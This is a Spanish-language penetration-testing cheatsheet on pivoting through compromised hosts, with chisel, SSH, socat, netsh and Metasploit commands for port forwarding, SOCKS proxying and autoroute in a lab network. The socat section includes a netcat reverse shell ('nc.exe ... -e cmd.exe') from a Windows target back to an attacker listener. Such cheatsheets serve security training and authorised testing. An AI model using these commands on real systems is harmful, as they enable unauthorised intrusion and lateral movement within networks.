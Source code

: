```yaml
---
title: "Pivoting"
draft: false
images: []
description: "Pivoting cheatsheetwith chisel, socat and metasploit"
lead: "Pivoting cheatsheetwith chisel, socat and metasploit"
menu:
  docs:
    parent: "Privesc"
weight: 100
toc: true
---
```



## <span style="color:#b31d36"> Port Forwarding </span>

Se crea una conexión entre un puerto local y un solo puerto en un objetivo, a través de un host comprometido. Esta técnica tiende a ser más rápida y más confiable que el proxy, pero solo nos permite acceder a un solo puerto (o un pequeño rango) en un solo dispositivo de destino. 

### <span style="color:#b31d36">Chisel Port Forwarding</span>

**Kali Machine** - 192.168.100.118
```bash
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
chisel client 192.168.100.118:1234 R:127.0.0.1:80:10.0.0.3:80
```

* R: \<local-interface\>:\<local-port\>:\<remote-host\>:\<remote-port\>


### <span style="color:#b31d36">Metasploit Portfwd</span>

In a meterpreter session

```bash
portfwd add -l 1234 -p 3389 -r 10.10.10.10
```
* l: puerto de escucha local
* p: puerto remoto a conectarse
* r: host remoto a conectarse
---

## <span style="color:#b31d36">Proxying/Tunneling</span>

Cuando hablamos de proxy, creamos una conexión a través de una máquina comprometida para enrutar todo el tráfico deseado a la red de destino. Un proxy es útil si deseamos redirigir mucho tráfico a nuestra red de destino, por ejemplo, un escaneo NMAP o para acceder a múltiples puertos en múltiples máquinas diferentes.

### <span style="color:#b31d36">Chisel Socks Proxy</span>

**Kali Machine** - 192.168.100.118
```bash
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
chisel client 192.168.100.118:1234 R:socks
```

### <span style="color:#b31d36">SSH Port Dynamic Forwarding</span>

**Kali Machine** - 192.168.100.118
```bash
ssh kryot@10.0.0.2 -D 1337
```
* D: puerto dinámico local

**Burpsuite** 
```bash
Configure User Options - SOCKS Proxy
Host 127.0.0.1
Port 1337
```
**Proxychains**
```bash
nano /etc/proxychains.conf
```

### <span style="color:#b31d36">SOCAT Tunneling</span>

**Kali Machine** - 192.168.100.118
```bash
nc -lvnp 7878
```
**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
socat TCP-LISTEN:7777,reuseaddr,fork tcp:192.168.100.118:7878
```
* TCP-LISTEN: establece puerto en escucha
* reuseaddr: permite reutilizar el puerto después de la finalización del programa
* fork: indicamos que socat pueda aceptar más de una conexión.

**Windows Machine** - 10.0.0.3
```bash
nc.exe 10.0.0.2 7777 -e cmd.exe
```

### <span style="color:#b31d36">Windows Proxying</span>

```bash
netsh interface portproxy add v4tov4 listenport=9999 listenaddress=0.0.0.0 connectport=9999 connectaddress=10.90.60.80
```

### <span style="color:#b31d36">Metasploit Autoroute</span>

In a meterpreter session

```bash
run autoroute -s 10.0.0.3 -n 255.255.255.0
```
* s: host
* n: máscara de red - default 255.255.255.0

